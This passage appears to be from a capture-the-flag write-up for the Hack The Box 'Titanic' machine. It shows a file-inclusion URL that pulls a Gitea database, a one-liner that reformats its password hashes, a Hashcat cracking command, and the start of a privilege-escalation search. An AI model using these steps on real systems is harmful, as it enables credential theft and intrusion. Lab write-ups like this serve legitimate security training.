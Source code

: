This file is downloaded by visiting [http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db](http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db).

This file is opened and browsed using DB Browser for SQLite . This database has stores credentials of the users in a table named "*user*". 
![Gitea DB User Table](/assets/images/htb_titanic09.png){: w="700" h="400" }

It is observed that *pbkdf2$50000$50* is the hashing algorithm used, where:
- **pbkdf2**: The hashing algorithm used is PBKDF2.
- **50000**: The number of iterations applied during hashing.
- **50**: The length of the hash output in bytes.

The forum post at [PBKDF2-SHA256 Signature unmatched error](https://hashcat.net/forum/thread-7854.html) and the [Hashcat's Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) are referenced to understand that the expected hash format for Hashcat is **sha256:iterations:base64(salt bytes):base64(hash bytes)**.
The following command is run to convert the available hashes to the proper format and store them in a file name **gitea.hash** -
`sqlite3 gitea.db "select passwd,salt from user"| while read data; do password=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); echo "sha256:50000:${salt}:${password}"; done >> gitea.hash`
The **gitea.hash** file is used to crack the passwords with the help of Hashcat -
`hashcat -m 10900 -a 0 gitea.hash /usr/share/wordlists/rockyou.txt`, which gives the password for the user *developer*
This is used to logon to ssh and obtain the user flag.
#### Bonus
The user flag can also be obtained by exploiting the Local File Inclusion vulnerability by visiting http://titanic.htb/download?ticket=/home/developer/user.txt

---
## Privilege Escalation
LinPEAS and `sudo` checks do not reveal any privilege escalation paths, so alternative methods are explored.
A writable directory for the *developer* user is identified using `find / ! -path "$HOME*" ! -path "/proc/*" ! -path "/sys/*" ! -path "/dev/*" ! -path "/run/*" -writable -type d 2>/dev/null` command. This shows two interesting directories - **/opt/app/static/assets/images** and **/opt/app/tickets** .
![Writable Directory](/assets/images/htb_titanic10.png){: w="700" h="400" }
